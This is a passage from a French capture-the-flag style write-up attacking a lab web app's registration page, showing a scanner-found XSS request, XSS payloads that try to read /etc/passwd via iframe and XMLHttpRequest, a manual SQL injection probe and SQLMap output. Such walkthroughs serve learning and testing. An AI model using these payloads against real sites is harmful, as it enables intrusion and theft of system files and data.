 Il trouve une XSS, l'outil a l'air vraiment pas mal et assez clair dans son retour. Il donne la requête :
```
XSS vulnerability in http://10.10.140.249/register.php via injection in the parameter password
Evil request:
    POST /register.php HTTP/1.1
    Host: 10.10.140.249
    Referer: http://10.10.140.249/register.php
    Content-Type: application/x-www-form-urlencoded

    username=alice&password=%22%3E%3CScRiPt%3Ealert%28%27wbw9vix7f6%27%29%3C%2FsCrIpT%3E&confirm_password=
```
J'essaye de transformer la XSS en LFI pour voir si je peux trouver des trucs interesant...

Exemple de payload utilisé:
```
"><ScRipT>document.write('<iframe src=///etc/passwd></iframe>');</ScRipT>
"><ScRipT>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open('GET','file:///etc/passwd');x.send();</ScRipT>
```
mais aucuns ne fonctionne... Il n'affiche rien.

## SQLMap
Après quelques tests avec la XSS, je test une SQLi.

J'ai une réponse positive avec le payload **test' AND 1=1 -- -** je vais donc test SQLMap pour trouver quelques choses.
```
[03:33:08] [WARNING] POST parameter 'username' does not seem to be injectable
[03:33:08] [WARNING] POST parameter 'password' does not appear to be dynamic
[03:33:08] [WARNING] heuristic (basic) test shows that POST parameter 'password' might not be injectable
[03:33:08] [INFO] testing for SQL injection on POST parameter 'password'
[03:33:08] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[03:33:09] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[03:33:09] [INFO] testing 'Generic inline queries'
[03:33:09] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[03:33:09] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[03:33:09] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[03:33:10] [WARNING] POST parameter 'password' does not seem to be injectable
[03:33:10] [ERROR] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent', skipping to the next target
```
Hummmm... Je test avec des level/risk différents et il me trouve bien un paramètre injectable et la DB (Il s'agit d'une database MySQL)
Je retest donc en lui indiquant que c'est un mysql avec l'argument **--dbms=mysql** mais le site passe en timeout et SQLMap n'arrive pas à le joindre...

Je test en ajoutant l'argument **--flush-session** qui permet de reset la session de SQLMap, mais c'est toujours en timeout, mais ca aide à avancer de repartir de 0.
